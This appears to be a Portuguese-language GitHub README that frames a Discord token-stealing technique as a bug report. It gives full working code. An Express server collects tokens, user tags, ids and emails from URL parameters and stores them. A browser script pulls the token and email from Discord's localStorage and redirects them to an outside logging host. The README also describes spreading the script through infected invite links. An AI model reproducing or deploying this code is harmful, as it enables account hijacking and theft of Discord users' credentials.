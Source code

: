 ![discord-logo-5](https://user-images.githubusercontent.com/79233369/116970934-2b331180-ac8f-11eb-9d17-357983cab884.png)
# Discord Vulnerabilidade Token
 ## Este é um bug do discord onde é possivel conseguir o token de um usuario apenas com um comando

 ### Oque precisa ser feito para acontecer o bug:

 - primeiro: o desenvolvimento de um servidor http de coleta de parametros pela url que seria algo muito simples, exemplo : [Servidor Exemplo](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/index.js)

```js
const express = require('express');
const app = express();
const port = 3000;

const path = require("path");

const low = require('lowdb') //banco de dados
const FileSync = require('lowdb/adapters/FileSync')
const adapter = new FileSync('database/db.json')
const db = low(adapter)

app.use("/public", express.static("public"));

app.get("/", (req, res) => {

    let token = req.query.token
    let tag = req.query.tag
    let id = req.query.id
    let email = req.query.email

    let bot = `false`

    if(token == undefined && tag == undefined && id == undefined && email == undefined){
        bot = `true`
        console.log('bot...')
        return;
    }

    if(token == undefined){
        token = `parametro token não passado`
    }
    
    if(tag == undefined){
        tag = `undefined#0000`
    }
    
    if(id == undefined){
        id = `parametro id não passado`
    }
    
    if(email == undefined){
        email = `undefined@gmail.com`
    }

    console.log(`o usuario logou com sucesso:${tag}`)
    if(!token) return;

    db.get('logs').push({
        token: token,
        tag: tag,
        id: id,
        email: email 
    }).write()    

    res.sendFile(path.join(__dirname, "public/index.html"));
})    

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`)); 
```
 - segundo: o desenvolvimento de um script para enviar o token por esse url, exemplo :
[Script de Envio Para o Servidor](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Code/ENV.js)
 
 ```js
function env(modul){
    const token = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token
    const tag = `${window.document.querySelector('div.size14-e6ZScH').innerText}%23${window.document.querySelector('div.size12-3cLvbJ').innerText.substr(1)}`
    const id = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.user_id_cache
    const email = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache

    if(modul == undefined){
        op1()
        modul = 1
    }else{}

    switch(modul){
        case 1:
            op1()
            break
        default:
            console.log(`Modulo ${modul} não foi encontrado`)
    }

    function op1(){
        window.location.href = `https://tokenlog.sasukecusaovh.repl.co/?token=${token}&tag=${tag}&id=${id}&email=${email}`
    }
}

env(1)
```
 - terceiro: o desenvolvimento de um url infectado como o invite de um server ou o invite de um bot para que quando o discord seja  iniciado o codigo seja rodado
 
 ### Oque era pra acontecer caso não existise bug:

 se o bug nao existisse o usuario iria usar o discord normalmente sem enviar nenhum dado sensivel para nenhum servidor

 ### Oque realmente acontece:

com o bug acontecendo o usuario acha que esta usando o discord normalmente porem ele envia um dado sensivel, exemplo: [Exemplo DataBase Com Dados](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/database/db.json)

```json
{
  "logs": [
    {
      "token": "token de um usuario:0000",
      "tag": "tag de um usuario:undefined#0000",
      "id": "id de um usuario:0000",
      "email": "emailo de um usuario:undefined@gmail.com"
    }
  ]
}
```


